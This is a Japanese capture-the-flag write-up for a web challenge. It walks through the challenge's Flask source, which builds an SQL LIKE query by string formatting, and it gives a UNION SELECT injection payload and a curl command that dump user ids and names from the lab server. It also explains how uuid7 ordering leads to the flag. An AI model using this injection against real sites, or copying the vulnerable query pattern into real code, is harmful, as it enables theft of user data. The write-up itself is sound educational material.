


# first:web:469pts
運営している小さな掲示板が100ユーザを達成しました 🎉  
そこで、メンテ明けの12/6に**100番目ちょうどの登録をしたユーザをトップページで掲載したい**ので、ユーザ名を `taskctf{ユーザ名}` で教えてください！  

[http://34.82.208.2:31555/](http://34.82.208.2:31555/)  

[files.zip](files.zip)  

Hint  
・ユーザ情報を取得するためには、どのようなSQLを実行すれば良いでしょうか？ ・各ユーザ情報を時系列で並べることはできないでしょうか？  

# Solution
URLとソースが渡される。  
アクセスすると、ユーザの投稿を検索できるサイトのようだ。  
  
`http://34.82.208.2:31555/?q=検索ワード`で検索できるようである。  
ソースを見ると以下のようであった。  
```python
~~~
# NOTE: This handler is not unavailable
# @app.route("/register", methods=["POST"])
# def register_post():
#     data = request.json
#     c = sqlite3.connect(db_name)
#     c.execute(f"INSERT INTO users (name, id) VALUES ({data['name']}, {str(uuid7())})")
#     c.commit()
#     c.close()

class Index_get_response:
    def __init__(self, response_from_db: tuple) -> None:
        if response_from_db is None or len(response_from_db) != 3:
            raise TypeError('response_from_db must be tuple whose size is 3.')
        id, user_name, body = response_from_db
        if type(id) != int or type(user_name) != str or type(body) != str:
            raise TypeError('response_from_db must be (int, str, str) tuple.')
        self.id = id
        self.user_name = user_name
        self.body = body

@app.route("/", methods=["GET"])
def index_get():
    q = ''
    if request.args.get('q') is not None:
        q = request.args.get('q')
    
    results = None
    c = sqlite3.connect(db_name)
    try:
        cur = c.cursor()
        cur.execute(f"SELECT posts.id, users.name, posts.body FROM posts INNER JOIN users ON posts.user_name = users.name AND posts.body LIKE \'%{q}%\'")
        results = cur.fetchall()
    except Exception as e:
        traceback.print_exc()
        return f'error: {e}', 500
    finally:
        c.close()

    results_resp = [Index_get_response(result) for result in results]
    return render_template('index.html', results=results_resp)
~~~
```
LIKE句に自明なSQLiがあることがわかる。  
また、`/register`が昔は存在したようで、nameと一意のidよりユーザをINSERTしている。  
ただidが`uuid7()`なので100番目がわからない。  
ひとまずSQLiを使いユーザのidを表示してやる。  
`%' UNION SELECT 1, id, name FROM users; -- satoki`を投げ込んでやればよい。  
  
idの先頭が共通し、異なっている個所は16進数で増加していることに気づく。  
どうやらUUIDv6,7,8ではタイムスタンプでソートできるようになっている[らしい](https://kakakakakku.hatenablog.com/entry/2022/10/31/082041)。  
`uuid7()`はUnix Timeベースであり、手元で試しても生成した順になる。  
```bash
$ python
~~~
>>> from uuid6 import uuid7
>>> uuid7()
UUID('0184d6da-248d-7ed3-986e-8d5b368499df')
>>> uuid7()
UUID('0184d6da-28bc-7bb6-b031-266b181c166d')
>>> uuid7()
UUID('0184d6da-2ca7-785b-afdd-f82e76a2c245')
>>> uuid7()
UUID('0184d6da-303e-759e-b731-881559c08e5d')
```
つまり100番目のuuidのユーザ名を答えればよい。  
site.htmlに保存し、検索すればよい(card-textにユーザ名が入っていることに注意)。  
```bash
$ curl -s 'http://34.82.208.2:31555/?q=%25%27+UNION+SELECT+1%2C+id%2C+name+FROM+users%3B+--+satoki' > site.html
$ grep card-text site.html | head -100 | tail -1
                  <p class="card-text">Satomi_Kato</p>
```
得られたユーザ名を指定された形式にするとflagとなった。  

## taskctf{Satomi_Kato}